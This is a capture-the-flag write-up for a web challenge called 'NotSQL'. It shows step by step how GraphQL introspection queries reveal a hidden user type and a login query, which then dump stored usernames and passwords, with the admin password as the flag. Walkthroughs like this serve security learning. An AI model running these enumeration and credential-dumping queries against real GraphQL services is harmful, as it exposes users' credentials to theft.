 # Webhacking NotSQL Solution

In this challenge we exploit vulnerabilities in `GraphQL`


First we get all of the types: 
```json
{__schema{types{name}}}
```
```json
{
  "data": {
    "__schema": {
      "types": [
        {"name": "Board"},
        {"name": "Int"},
        {"name": "String"},
        {"name": "User_d51e7f78cbb219316e0b7cfe1a64540a"}, // INTERESTING
        {"name": "Query"},
        {"name": "CacheControlScope"},
        {"name": "Upload"},
        {"name": "Boolean"},
        {"name": "__Schema"},
        {"name": "__Type"},
        {"name": "__TypeKind"},
        {"name": "__Field"},
        {"name": "__InputValue"},
        {"name": "__EnumValue"},
        {"name": "__Directive"},
        {"name": "__DirectiveLocation"}
      ]
    }
  }
}
```

next, we want to find the fields of this type:
```json
{__type(name:"User_d51e7f78cbb219316e0b7cfe1a64540a"){fields{name}}}
```

```json
{
  "data": {
    "__type": {
      "fields": [
        {"name": "userid_a7fce99fa52d173843130a9620a787ce"},
        {"name": "passwd_e31db968948082b92e60411dd15a25cd"}
      ]
    }
  }
}
```

Now, we will check what are the available queries.
```json
{__type(name:"Query"){fields{name}}}
```
```json
{
  "data": {
    "__type": {
      "fields": [
        {"name": "view"},
        {"name": "login_51b48f6f7e6947fba0a88a7147d54152"}
      ]
    }
  }
}
```

OK, so there is a query that's called: `login_51b48f6f7e6947fba0a88a7147d54152`, and we know the name of the fields. let's try to give them to the query:
```json
{login_51b48f6f7e6947fba0a88a7147d54152{userid_a7fce99fa52d173843130a9620a787ce,passwd_e31db968948082b92e60411dd15a25cd}}
```

```json
{
  "data": {
    "login_51b48f6f7e6947fba0a88a7147d54152": [
      {
        "userid_a7fce99fa52d173843130a9620a787ce": "test-user",
        "passwd_e31db968948082b92e60411dd15a25cd": "test-password"
      },
      {
        "userid_a7fce99fa52d173843130a9620a787ce": "admin",
        "passwd_e31db968948082b92e60411dd15a25cd": "FLAG{i_know_how_to_use_graphql}" // <---
      }
    ]
  }
}
```

![FLAG](./images/NotSQL.png)

**Flag:** ***`FLAG{i_know_how_to_use_graphql}`*** 


